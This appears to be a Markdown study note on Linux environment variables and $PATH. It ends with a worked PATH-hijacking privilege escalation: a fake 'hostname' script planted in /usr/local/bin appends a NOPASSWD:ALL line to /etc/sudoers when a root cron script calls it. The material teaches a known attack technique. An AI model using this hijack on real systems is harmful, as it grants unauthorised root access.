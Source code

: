 #### Environment variables
A ***shell's behaviour is stored in an environment*** - so when the shell session begins, it refers to this environment to find the behaviour information. ***Environment variables define the current shell session environment***. They affect various aspects of a system, including ***processes and programs***.

**Display Environment Variable**
```bash
env
```

#### The $PATH variable
The **$PATH variable** is an environment variable that ***defines the directories that store executables***. So, when a ***user runs a command without an absolute path, the system will search all folders*** contained in the $PATH for executables that match the command.

**Display $PATH Variable**
```bash
echo $PATH
```

**Example**
When you run `ls` which is stored in `/usr/bin/ls`, you don't have to run the absolute path to the binary which is `/usr/bin/ls` because the `/usr/bin` is defined in the $PATH variable.

#### Vulnerable $PATH
When a command is run without an absolute path, the system searches through directories listed in the `$PATH` variable, in order, and runs the first matching executable it finds. If duplicates exist, the one in the earlier directory is used—even if it’s not the intended one.

The first step in identifying a $PATH vulnerability is identifying whether ***any directories within this $PATH variable are `world-writable`***.

**Find World-Writable directories**
```bash
find / -writable -type d 2>/dev/null
```
- `Look for any directories within the $PATH`.
- If `/usr/local/bin` is world-writable which comes before `/usr/bin` in the $PATH which holds the `ls` binary, your malicious `ls` binary would be run before the original binary unless `ls` is called with an absolute path.

#### Using $PATH for Privilege Escalation
**Example**
Linux systems ***often run scripts as root for maintenance or security***. In this case, a script (`backup.sh`) runs every minute as root, but is readable—not writable—by a lower-privileged user.
```bash
limited@target:~$ ls -la /opt/backup/backup.sh
-rwxr--r--
limited@target:~$ cat /opt/backup/backup.sh
#!/bin/bash
ip=$(hostname -I)
echo "Backing up $ip" > /root/ip
```

The script runs `hostname` without an absolute path, making it vulnerable to **PATH hijacking**, because:
1. **Commands are called with relative paths**
2. **The `$PATH` variable includes a user-writable directory (e.g., `/usr/local/bin`) before the real binary’s location (`/usr/bin`)**

Since the system searches `$PATH` in order, placing a malicious `hostname` script in `/usr/local/bin` allows you to hijack the script execution and potentially escalate privileges.

#### Exploitation
To exploit the vulnerable script `backup.sh` that runs as root and calls `hostname` without an absolute path, you can ***hijack the `hostname` command*** by placing a malicious script earlier in the `$PATH`.

**Exploitation Process**
1. **Change to a writable directory**
	```bash
	cd /usr/local/bin
	```

2. **Create a fake `hostname` script**
	```bash
	nano hostname
	```

3. **Insert malicious code that grants `sudo` access**
	```bash
	#!/bin/bash
	echo "<username> ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
	```

4. **Make the script executable**
	```bash
	chmod +x hostname
	```

5. **Confirm hijack by checking which `hostname` is found first**
	```bash
	which hostname
	# Output: /usr/local/bin/hostname
	```



